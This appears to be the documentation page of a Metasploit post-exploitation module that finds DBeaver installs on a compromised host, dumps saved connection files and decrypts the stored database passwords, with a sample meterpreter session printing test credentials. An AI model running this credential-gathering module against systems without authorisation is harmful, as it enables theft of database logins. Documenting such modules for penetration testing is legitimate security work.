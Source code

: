 ## Vulnerable Application
  DBeaver is free and open source universal database tool for developers and database administrators.

  This module will determine if Dbeaver is installed on the target system and, if it is, it will try to
  dump all saved session information from the target. The passwords for these saved sessions will then be decrypted
  where possible.

  Any Dbeaver version on any operating system are supported.

  If it works normally, the connection name, host, username and password saved in the certificate file will be printed

### Installation Steps

  1. Download and run the Dbeaver installer (https://dbeaver.io/files/). Since
     the encryption algorithm changed in version 6.1.3, it is recommended to
     test this module against a version below 6.1.3 and also against the latest
     version.
  2. Select default installation
  3. Open the software and create a database connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a session.
  2. Do: `set session <session number>`
  3. Do: `run post/multi/gather/credentials/dbeaver`
  4. If the system has registry keys for Dbeaver passwords they will be printed out.

## Options

 **XML_FILE_PATH**

Specify an XML configuration file (eg.
`C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml` or
`C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver-data-sources.xml`).

 **JSON_DIR_PATH**

Specifies the config dir path for Dbeaver. Ensure that there are two files
`credentials-config.json` and `data-sources.json` under the directory (eg.
`"C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver`).

## Scenarios

```
meterpreter > run post/windows/gather/credentials/dbeaver

[*] Gather Dbeaver Passwords on FireEye
[+] dbeaver .dbeaver-data-sources.xml saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_319751.txt
[*] Finished processing C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml
[+] dbeaver credentials-config.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_334807.txt
[+] dbeaver data-sources.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_309767.txt
[*] Finished processing C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver
[+] Passwords stored in: /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_host.dbeaver_421133.txt
[+] Dbeaver Password
================

Name             Protocol    Hostname   Port  Username  Password        DB        URI                                        Type
----             --------    --------   ----  --------  --------        --        ---                                        ----
Test_MYSQL       mysql       localhost  3306  root      test_password   db        jdbc:mysql://localhost:3306/db             dev
Test_PostgreSQL  postgresql  localhost  5432  postgres  test_passwordr  postgres  jdbc:postgresql://localhost:5432/postgres  dev
localhost        mysql       localhost  3306  root      test_mysql      db        jdbc:mysql://localhost:3306/db             test
postgres         postgresql  localhost  5432  postgres  test_postgres   postgres  jdbc:postgresql://localhost:5432/postgres  prod

meterpreter >
```

